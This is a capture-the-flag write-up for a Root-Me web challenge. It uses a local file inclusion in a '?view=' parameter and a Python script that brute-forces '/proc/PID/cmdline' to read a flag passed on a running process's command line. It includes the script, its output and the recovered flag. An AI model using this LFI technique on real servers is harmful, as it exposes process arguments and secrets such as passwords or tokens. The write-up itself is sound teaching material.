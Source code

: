 # Echo's Secure Flag Checker

![chall_head](./chall_head.png)

## Vulnerablity searching

First, let's look at the website.

![home_page](./screen1.png)

It appears that the website was created to publish a script that checks the robustness of a flag. When we click on the link "here", we can see 2 interesting things.

- The page inform us that we can download the script at `http://ctf10k.root-me.org:6002/flagChecker.py` and if we remember correctly what says the description of the challenge, we can see that `The admin is currently running the FlagChecker on his server.`

- The url that we were redirected to is `http://ctf10k.root-me.org:6002/?view=app.html` which could be a local/remote file inclusion. This vulnerablity appears when websites open the content of files that are given in parameters, if there is no filter in the path of the file given, an attacker can read the content of any file, if he knows his path.

Let's first check the script, it could maybe be vulnerable.

```python
#!/bin/python3

"""
FlagChecker V0.1
Todo :  Improve testFlag method with regular expressions
	Implement try/catch to handle bad args
"""

#libs
from sys import argv
from os import getpid,system

#flag
flag = argv[2]
print("[~] Your flag is:",flag)
print("[~] PID is:",getpid())

def testFlag(passw):
	special_characters = "\"'!@~éè#$%^&*()-+?_=,<>/"
	isStrong = True
	reason = "[!] flag doesn't match these critera : \n"
	upperChars = 0
	lowerChars = 0
	numChars = 0
	if(len(passw)<=12):
		isStrong = False
		reason+="\t-Not long enough (<12 characters)\n"
	for char in passw:
		if char.isupper():
			upperChars+=1
	if(upperChars==0):
		isStrong= False
		reason+="\t-There are no uppercase characters in your flag\n"
	for char in passw:
		if char.islower():
			lowerChars+=1
	if(lowerChars==0):
		isStrong = False
		reason+="\t-There are no lowercase characters in your flag\n"
	for char in passw:
		if char.isnumeric():
			numChars+=1
	if(numChars==0):
		isStrong = False
		reason+="\t-There are no numbers in your flag\n"
	if(char in special_characters for char in passw):
		a=""
	else:
		reason+="\t-There are no special chars in your flag\n"
		isStrong=False
	if(isStrong):
		print("[!] Your flag is strong enough !")
	else:
		print(reason)
	input("Press <ENTER> to quit program...")
#test flag
testFlag(flag)
```

Ok, by reading the script, we can assume that the administrator of the website ran the program but forgot to close it by typing \<ENTER\>. We can assume that he ran something like

```bash
./flagChecker -f flag
```

So, what we could exploit is the fact that the script is currently running. To do that, let's look into the local/remote file inclusion that we found earlier.

To be more precise, let's firstly try if there really is a local file inclusion. To check that, the most efficient way is to test it on a file that exists in the directory for sure and we got one. Infact, `flagChecker.py`is in this directory.


By requesting `http://ctf10k.root-me.org:6002/?view=flagChecker.py` we got this reponse

![screen_response](./screen2.png)

The LFI(Local File Inclusion) worked !

Now let's see if there is a restriction on the file that we can open. For example, let's try `/etc/passwd` .

![screen_reponse2](./screen3.png)


Unfortunately, there is one. :cry:

If we think a little, what we need to find is the command that was executed. To do that, we have 2 ways, or a log file, or a file that contains informations about the programs currently running.

Logs are out of reach, cause most of them need root permissions to be opened, so it only remains the second possibilty.

If we look further in the way of working of linux type systems, there is a directory created for each currently running program in `/proc` which is named with the PID of the process. Inside, there is a file called `cmdline`, where we can find the command line used to launch the process.

So, to sum up, we're gonna try to open the file `/proc/PID/cmdline` to see how the process with the pid PID was launched.

Let's try to do it for the pid 1, to see if we can access that file, which gives the url `http://ctf10k.root-me.org:6002/?view=/proc/1/cmdline`.


![screen_response_test](./screen4.png)

And we got it, time to create a script to brute-force all the pids possible, to find which ones exists and wich ones does not.


## exploitation of the vulnerability



```python
import requests
import time
from bs4 import BeautifulSoup

s = requests.Session()
url = "http://ctf10k.root-me.org:6002/?view=/proc/"
not_found_length = 1366 # lenght of the responses with 404 not found

for i in range(1, 9999):
    print("Getting : " + str(i))
    req = s.get(url+str(i)+"/cmdline").content
    if len(req) != not_found_length:
        print("[+] Found for "+str(i))
        cmd = BeautifulSoup(req).find("main")
        print(cmd)
    time.sleep(0.1) # if there is a request/s limit
```

It only remains to execute the script.

```html
Getting : 1
[+] Found for 1
<main class="text-light">/bin/bash /entrypoint.sh </main>
Getting : 2
Getting : 3
Getting : 4
Getting : 5
Getting : 6
Getting : 7
[+] Found for 7
<main class="text-light">apache2 -DFOREGROUND </main>
Getting : 8
[+] Found for 8
<main class="text-light">python3 /var/www/html/flagChecker.py --flag RM{Thx2Anth0&amp;M1k4Y0uFl4gg3d0bfu6} </main>
Getting : 9
Getting : 10
Getting : 11
Getting : 12
Getting : 13
Getting : 14
Getting : 15
```

We just need to wait 5 seconds and here we got the flag in the output, no need to test more pids.

We just need to remove the html encoding (`&amp;` -> `&`), which gives the flag `RM{Thx2Anth0&M1k4Y0uFl4gg3d0bfu6}`.

[Here](./brute_force_flagChecker.py) is the source code of the brute force script and [here](./flagChecker.py) is the file flagChecker(that was downloaded on the website).

Thanks Mika and Antho for the challenge and thank you for reading.